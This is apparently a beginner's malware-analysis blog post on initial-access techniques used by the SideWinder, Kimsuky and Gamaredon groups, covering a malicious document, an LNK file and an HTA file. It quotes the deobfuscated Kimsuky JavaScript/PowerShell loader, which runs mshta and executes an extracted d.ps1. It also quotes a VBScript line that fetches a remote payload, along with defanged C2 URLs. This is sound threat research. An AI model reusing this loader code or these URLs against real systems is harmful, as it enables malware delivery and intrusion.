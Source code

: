 ```yaml
---
layout: post
title: "Looking into Initial Access Payloads by APT Groups"
date: 2025-02-07
categories: ["Non-PE Malware"]
---
```


## Contents
- Introduction.
- Motivation.
- Technical Analysis
    - Case 1 : Sidewinder using malicious document to drop RTF Payload.
    - Case 2 : Kimsuky using malicious LNK file to drop PowerShell payload.
    - Case 3 : Gamaredon using HTA to drop further malware.
- YARA Rule.
    - Detecting Maldoc.
    - Detecting LNK.
    - Detecting HTA.
- IOCs.
- Limitations.
- MITRE ATT&CK.

## Introduction
![image](https://github.com/user-attachments/assets/b975d5f5-9074-4bd4-b747-efbaaa380ffd)

I recently started learning about maldoc analysis as part of my malware analysis journey. During this process, I explored different APT groups, including SideWinder( 🇮🇳 ), Kimsuky ( 🇰🇵 ) , and Gamaredon ( 🇷🇺 ). I analyzed their samples, focusing on how they gain initial access. To conduct my research, I used platforms like VirusTotal, Twitter, and MalwareBazaar to find and study real-world malware samples.So, I am writing this blog which contains my findings for the same.

## Motivation

My motivation is to explore different areas of malware analysis and gain a deeper understanding of how cyber threats operate. By researching various APT groups, I can learn about different initial access techniques used by attackers. This helps in understanding the diverse ways cybercriminals infiltrate systems. The more APT groups I analyze, the better I can recognize attack patterns and improve threat detection skills. My goal is to continuously expand my knowledge in Malware Analysis and Threat Research.

## Technical Analysis

I wanted to learn about different APT groups and how they execute attacks in the initial phase. So, I collected three malware samples of different APT groups from MalwareBazaar and studied their initial attack methods.

Each group uses a different approach:

- SideWinder delivers a malicious document (Maldoc).
- Kimsuky uses a LNK file.
- Gamaredon deploys an HTA file.

Now, I will analyze these files to understand their attack techniques.

### Case 1 : Sidewinder using malicious document to drop RTF Payload.

During my analysis of an initial phishing attempt, I came across a document file. To examine its internal structure, I used the oleid command, which helped identify that the file contained an external relationship. This indicated that the document might be referencing or attempting to fetch external content.

![image](https://github.com/user-attachments/assets/e758e58b-4572-4da6-9d70-94862601927d)


To dig deeper, I used the `oleobj` command, which revealed that the document was configured to **download an RTF file from an external source**. The URL of this external file was embedded within the document, and the file being fetched was named **profile.rtf**. This suggests that the document was likely being used to execute a second-stage payload, making it a potential **malicious downloader**.

`hxxps://pubad-gov-lk.org-co.net/10472857/Profile.rtf`

Then, after doing some research, I found that this is a **decoy RTF file**, while the actual **RTF payload** had already been removed from the **C2 server**.

For anyone interested in researching further on **how SideWinder targets victims or delivers the actual RTF payload**, you can refer to this [research](https://blog.strikeready.com/blog/rattling-the-cage-of-a-sidewinder/).

### Case 2 : Kimsuky using malicious LNK file to drop PowerShell payload.

In this case, I analyzed an **LNK file** and began by examining its **file structure**. During the analysis, I identified the following **flags**, which I will detail below.

LNK File Structure Analysis :

- **Flags Breakdown**:
    - `HasLinkTargetIDList`: Indicates that the LNK file contains a target ID list, pointing to a specific file or directory.
    - `HasLinkInfo`: Provides additional path information about the target file.
    - `HasArguments`: 
    When `HasArguments` is set, it means the LNK file has extra parameters (Command -line arguments) that will be executed when the shortcut is opened.
    - `EnableTargetMetadata`: Allows retrieving metadata for the target file.
      
- Target Execution Path:
  
  ![image_kimsuky](https://github.com/user-attachments/assets/88a27a9c-a177-4722-a1d2-186294f46347)

- **LinkTargetIDList →** `CLSID_MyComputer\C:\Windows\System32\mshta.exe`
- `mshta.exe` is a legitimate Windows utility, but attackers often misuse it to run **obfuscated JavaScript** for executing hidden **PowerShell commands**. This can download and execute malicious files. This technique falls under **LOLBins**, where trusted Windows utilities are exploited to bypass security detection.

Command-Line Arguments: Embedded JavaScript Execution

The **Command-Line Arguments** field in the LNK file contains **JavaScript code**, which will be executed along with **`mshta.exe`**. This means that when the LNK file is opened, `mshta.exe` will **run the JavaScript code**, potentially executing further malicious scripts.

Extracted JavaScript Code :

After extracting the JavaScript embedded in the LNK file, I obtained the following script:

```jsx
javascript:v=" -Encoding Byte;sc ";
s="a=new Ac"+"tiveXObject('WSc"+"ript.Shell');a.Run(c,0,true);close();";
c="powe"+"rshell -ep bypass -c $t=0x1be8;$k = Get-ChildItem .lnk | where-object {$*.length -eq $t} | Select-Object -ExpandProperty Name;
if($k.count -eq 0){$k=Get-ChildItem $env:T"+"EMP\\\\*.lnk | where-object{$*.length -eq $t};};
$w='c:\\programdata\\d.ps1';
$f=gc $k"+v+"$w ([byte[]]($f | sel"+"ect -Skip 0x094a)) -Force"+v+"c:\\programdata\\b21111 0;
po"+"wersh"+"ell -ep bypass -f $w;";
eval(s);
```
This JavaScript code is trying to run a hidden **PowerShell command** using `mshta.exe`. It does this in several steps:

- The script creates a **WScript.Shell** object, which helps run commands on Windows.
- It then prepares a PowerShell command and executes it.
- The script looks for a **.lnk (shortcut) file** in the current folder.
- If it doesn't find the file, it searches in the **TEMP folder**.
- It checks if the file has a **specific size (7144 bytes)** to make sure it's the correct one.
- The script **reads the contents** of the .lnk file.
- It **skips the first part** of the file (2378 bytes) and extracts **some hidden data**.
- This data is saved as a new **PowerShell script** (`d.ps1`).
- The script **runs `d.ps1` using PowerShell**, which could be another piece of malware.
- It also calls another unknown program (`b21111`), which might be part of the attack.

Then, after researching the d.ps1 file, I found that it is obfuscated, which further on de-obfuscating, I found it has been downloading another ZIP file containing malware known as gs.zip , which contains the final payload.


### Case 3 : Gamaredon using HTA to drop further malware.

In this case, the file I found during the initial phishing analysis is an HTA file, which is a combination of HTML and VBScript.

![image_gam1](https://github.com/user-attachments/assets/76e4c57a-55e8-403b-8dff-c079730184f8)


When I analyzed this HTML file, I found multiple IP addresses and several **Domain Generation Algorithm (DGA)** domains associated with the **trycloudflare[.]com** website, as shown in the image below. **DGAs** are used by attackers to generate a large number of domain names dynamically, making it harder for security solutions to block them.

![image_gam2](https://github.com/user-attachments/assets/745bdd5d-de01-4c96-a969-39a54cf76a45)


Additionally, I discovered a **malicious script** embedded within the HTML file. Instead of being directly visible, the script was stored in a **string format** and was later reconstructed by concatenation. Once decoded, it was found to be executing another script, which could potentially download or execute additional payloads.

Now, let's analyze this script further to understand its purpose and behavior.

`CreateObject("WScript.Shell")[.]Run  "%windir%\system32\mshta[.]exe " &  "hxxps://louise-gzip-think-air.trycloudflare.com/OD/rotI7D/shortlyqXW.tif”`

This script basically accesses the **Windows Shell** and runs `mshta.exe`. The likely reason for using `mshta.exe` is to execute the script **without triggering any security warnings**.

Additionally, the script contains a **remote URL** that appears to download a file with a `.tif` extension. However, I suspect that this is actually a **malicious payload** being fetched from a **C2 server** rather than a legitimate image file.

